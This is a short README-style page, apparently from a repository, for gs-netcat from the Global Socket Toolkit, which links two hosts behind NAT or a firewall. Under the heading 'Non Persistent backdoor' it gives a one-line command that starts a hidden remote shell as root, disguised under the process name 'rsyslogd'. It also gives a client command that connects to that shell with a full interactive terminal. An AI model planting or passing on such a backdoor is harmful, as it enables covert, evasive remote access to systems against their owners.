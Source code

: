 # gs-netcat

### Overview

The Global Socket Tookit allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

More on [https://www.gsocket.io](https://www.gsocket.io).

### Non Persistent backdoor

```
$(GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /path/to/gs-netcat")
```

### Client Connection

```
gs-netcat -i -s MySecret
```

* Above will spawn a full pty giving you the option to tab complete and use up arrow as long as CTRL+C
